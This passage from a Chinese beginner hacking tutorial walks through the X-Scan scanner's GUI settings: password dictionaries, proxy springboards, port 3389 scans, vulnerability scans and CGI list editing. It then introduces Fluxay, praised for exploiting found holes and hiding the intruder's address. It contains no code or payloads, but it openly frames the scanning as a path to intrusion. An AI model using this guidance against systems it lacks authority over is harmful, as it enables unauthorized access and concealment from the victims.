包括两部分，一是用户名字典，二是密码字典。涉及到的探测种类有：NT-SERVER用户探测、FTP-SERVER用户探测、SQL-SERVER用户探测、SMTP-SERVER用户探测、POP3用户探测、SNMP密码探测，如图1-2-11所示。

#### 五、“代理服务器设置”



图1-2-11 用户和密码字典设置

就是只可以通过别的主机做跳板来进行网络连接。你可以这样理解：做跳板的机器就是代理服务器。

目前这个软件只提供HTTP服务的代理设定功能，如图1-2-12所示。

> 阿瓜小注：其他的代理类型还有FTP代理、TELNET代理、SOCKS代理等。



图1-2-12 设置代理服务器

把“扫描模块”和“扫描参数”设置完之后就可以开始扫描了。在“文件”菜单中选择“开始扫描”或者在工具条中选择第二个按钮，扫描就会开始，如图1-2-13、1-2-14所示。


图1-2-13 在菜单中启动

图1-2-14 在工具栏中启动

> 阿瓜：“听课真是累，我的头都大了，还是弄不明白，还不如自己实验一下呢！”

> 榕哥：“有道理，那好，你在心里模拟实验一下吧！”

> 阿瓜：“我倒！”

比如说，现在我们要扫描开放“3389”端口号的主机，那么先要在“扫描模块”中选择“开放端口”这一项。对于“扫描参数”我们进行如下设置：

- 1. 填好要扫描的IP地址，其他默认即可，如图1-2-15所示。



1-2-15 设置扫描参数

- 2. 填上要扫描的端口号。其他默认即可，如图1-2-16所示。



1-2-16 设置要扫描的端口

都设置好后，开始扫描。可以看到扫描进度显示，如图1-2-17所示。



1-2-17 扫描显示

扫描结束以后，可以查看全部扫描结果。如图1-2-18所示，选择查看“检测报告”。



1-2-18 查看扫描结果

结果如图1-2-19所示：



1-2-19 全部扫描结果显示

> 阿瓜小声：“如果在扫描结果里没有我想要的地址怎么办？是不是再换个人地址重新扫描？”

榕哥拍拍阿瓜的头，“不错，这孩子变聪明了。”

阿瓜傻傻一笑：“嘿嘿，是啊！”

> 榕哥点拨：阿瓜，你变聪明了也不该浪费东西啊！这么好的扫描器怎么只用它来扫描端口，它更加强大的漏洞扫描功能为什么不用啊？笨！

阿瓜：“对，嘿嘿，扫描漏洞，我们看看更精彩的。”

先确定要扫描的主机地址，注意是地址，不是地址范围。为什么呢？兵力太分散不好，要集中优势兵力作战，才会提高效率呀！在扫描参数中填上“IP地址”，其他不变。

在选择“扫描模块”时，要是不知道主机的类型，你干脆把所有的扫描模块都选上，如果知道的话就只选上相关的就可以了，例如对于NT/WIN2000的WEB服务器可以只选如下图1-2-20所示模块。



1-2-20 设置扫描模块

下面的示例是用的“全选”。开始扫描，如图1-2-21所示，看到美丽的世界了吧？



1-2-21 漏洞扫描结果

扫描全部完成时，选择查看“检测结果”可以看到全部扫描结果，如图1-2-22所示。



1-2-22 全部扫描结果

点击图1-2-22中的“详细资料”，就可以看到如图1-2-23全部的详细漏洞资料。



1-2-23 详细漏洞资料

在结果中显示了漏洞的详细资料、风险等级，并且提供“漏洞描述”，通过“漏洞描述”可以找到漏洞的利用方法。真是体贴周到啊！图1-2-24所示为CGI漏洞详细资料。



1-2-24 CGI漏洞详细资料

对于CGI漏洞的探测需要CGI列表的支持，这个列表是可以扩充的。在“工具”菜单中选择“CGI列表维护”，如图1-2-25所示。出现如图1-2-26所示对话框。


1-2-25 启动CGI列表维护



1-2-26 维护CGI列表

点击“浏览”可以选择不同的CGI列表文件。也可以编辑软件初始提供的CGI列表文件。方法是用“记事本”程序打开cgi.lst文件，然后进行编辑。这样就可以增加新的漏洞资料了。

阿瓜一脸幸福地看着XSCAN，不由得又想起了自己入门时就开始接触、现在更加离不开的“流光”来了。

## 1.2.2 流光（FLUXAY）

流光是国产扫描器中最好的一个，因为它的功能和界面都让人爱不释手，陶然心醉。

流光不但提供了强大的扫描功能，而且还提供了方便的工具，让使用者可以在扫描到漏洞以后直接利用这个漏洞得到主机的操作权限。流光的扫描对象涉及到 HTTP 主机、FTP 主机、SMTP 主机、POP3 主机、IMAP 主机、PROXY 主机、FORM 主机、MSSQL 主机等。流光自带的黑客字典提供了强大的字典编辑功能。流光的新版本还提供了一个激动人心的功能，那就是通过使用 Fluxay Sensor 可以实现代理扫描功能，也就是通过别的主机进行扫描，而不会把自己的主机地址直接暴露出来，这使入侵的隐蔽性大大提高。所以，阿瓜说：“流光是居家旅游，探亲访友，蜜月新婚必不可少的良品。”听众：“那么在哪可以买到这种东西呢？”阿瓜：“市内各大专卖店均可免费赠送。欢迎使用！”

> **橡哥警语：** 由于这个软件的功能十分强悍，而且简单易用，甚至对黑客技术不了解的人都可以利用这个工具入侵网站成功。为了避免法律上的麻烦，作者对扫描的 IP 地址作了限制，对国内 IP 地址的扫描是禁止的，虽然这个限制可以被解，但还是希望大家自重！

流光的使用界面很漂亮，一起来看看吧，如图 1-2-27 所示！



1-2-27 流光的初始界面

